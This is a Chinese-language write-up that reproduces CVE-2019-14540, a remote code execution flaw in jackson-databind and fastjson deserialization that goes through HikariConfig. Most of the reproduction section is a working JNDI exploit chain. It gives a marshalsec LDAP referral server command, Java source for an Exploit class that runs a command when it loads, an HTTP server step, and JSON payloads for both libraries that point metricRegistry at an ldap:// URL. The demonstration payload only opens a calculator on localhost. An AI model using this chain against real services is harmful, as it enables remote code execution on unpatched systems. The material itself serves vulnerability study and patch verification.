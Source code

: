 （CVE-2019-14540）FasterXML jackson-databind 远程命令执行漏洞
=============================================================

一、漏洞简介
------------

FasterXML
Jackson是美国FasterXML公司的一款适用于Java的数据处理工具。jackson-databind是其中的一个具有数据绑定功能的组件。
FasterXML jackson-databind
2.9.10之前版本中存在输入验证错误漏洞。攻击者可利用该漏洞执行代码。

二、漏洞影响
------------

jackson-databind \<=2.7.9.6,2.8.11.4,2.9.9.3

fastjson \<= 1.2.59

三、复现过程
------------

### 分析过程

我喜欢用 gradle 来管理项目，先依赖一个最新版的回来

    compile 'com.zaxxer:HikariCP:2.4.0'

观察 HikariConfig.java 的setter 和 getter
方法，稍微有点常识的人都能看出， setMetricRegistry 和
setHealthCheckRegistry
里有明显的lookup方法，下一步就是按照标准的剧本去利用一遍了，经典的jndi漏洞利用，老司机应该分分钟就搞定，但我从来没写过利用，就从头学习一下。

### 利用过程（常见的jndi利用）

首先，我利用的是 ldap 协议，需要在低版本（小于
java8u191）下利用，详细原理我不是很清楚，大致原理就是从远程加载一个
class文件，调用它的构造函数，在构造函数里可以执行任意代码。

然后，借用 https://github.com/ianxtianxt/marshalsec 提供的转发功能，创建
ldap server，作用是转发到另一个 http server 上，使用非常方便。

    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 1389

    Listening on 0.0.0.0:1389

然后编译一个 Exploit.class 出来，找个地方放好

    public class Exploit {
        public Exploit() {
            try {
                if (System.getProperty("os.name").toLowerCase().startsWith("win")) {
                    Runtime.getRuntime().exec("calc.exe");
                } else if (System.getProperty("os.name").toLowerCase().startsWith("mac")) {
                    Runtime.getRuntime().exec("open /Applications/Calculator.app");
                } else {
                    System.out.println("No calc for you!");
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

然后在 Exploit.class 目录，开一个 http 服务

    python -m SimpleHTTPServer

之后使用 jackson 进行反序列化

    ObjectMapper mapper = new ObjectMapper();
    mapper.enableDefaultTyping();
    mapper.readValue("[\"com.zaxxer.hikari.HikariConfig\", {\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}]".getBytes(), Object.class);

或者使用 fastjson 进行反序列化

    ParserConfig.global.setAutoTypeSupport(true);
    JSON.parse("{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}");

即可触发弹计算器

![](./resource/(CVE-2019-14540)FasterXMLjackson-databind远程命令执行漏洞/media/rId26.png)

### 文中代码的github地址:

https://github.com/ianxtianxt/cve-2019-14540-exploit

参考链接
--------

> https://www.leadroyal.cn/?p=939
>
> https://www.restran.net/2018/10/29/fastjson-rce-notes/
>
> https://paper.seebug.org/942/
